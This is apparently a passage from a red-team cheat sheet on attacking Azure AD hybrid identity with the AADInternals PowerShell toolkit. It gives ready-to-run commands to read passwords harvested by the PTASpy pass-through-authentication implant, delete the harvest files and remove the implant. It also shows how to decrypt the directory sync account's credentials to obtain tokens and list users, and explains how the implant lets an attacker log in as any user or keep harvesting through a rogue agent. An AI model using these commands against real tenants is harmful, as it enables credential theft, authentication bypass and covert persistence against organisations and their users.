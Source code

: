 ### AADInternals - Check decoded passwords left in C:\PTASpy\PTASpy.csv 
```powershell
Get-AADIntPTASpylog -DecodePasswords 
```

### AADInternals - Clean up CSV 
```powershell
Remove-Item -r -force C:\PTASpy
```

### AADInternals - Remove PTASpy
```powershell
Remove-AADIntPTASpy
```

## AADInternals - Log in as any user 
Every PTA attempt against Azure AD will be intercepted by the installed AADIntPTASpy module. The module will record the user’s password attempt and reply back to Azure AD on behalf of the PTA Agent. This reply advises Azure AD the password attempt was valid and grants the user access to the cloud, even if the password is incorrect. If an attacker has implanted AADIntPTASpy, they can log in as any user that attempts to authenticate using PTA—and will be granted access. 

## AADInternals - Perpetual Harvest as Glocal Cloud Admin 
If you have global admin, we can install the PTA agent on one of our own servers and register it as PTA Agent in the portal and continue recieve logins



## Scenario 2 - PasswordHashSync - AD to AzAd Escalation

### AADInternals - Decrypt DPAPI master keys and Sync Creds 
```powershell
Get-AADIntSyncCredentials 
```

### AADInternals - Modifying Users-  Save the displayed credentials to a variable
```powershell
$creds = Get-Credential 
```

### AADInternals - Get Tokena and Save to Cache
```powershell
Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache
```

### AADInternals - Get Users
```powershell
Get-AADIntUsers | Select UserPrincipalName,ImmutableId,ObjectId | Sort UserPrincipalName
```
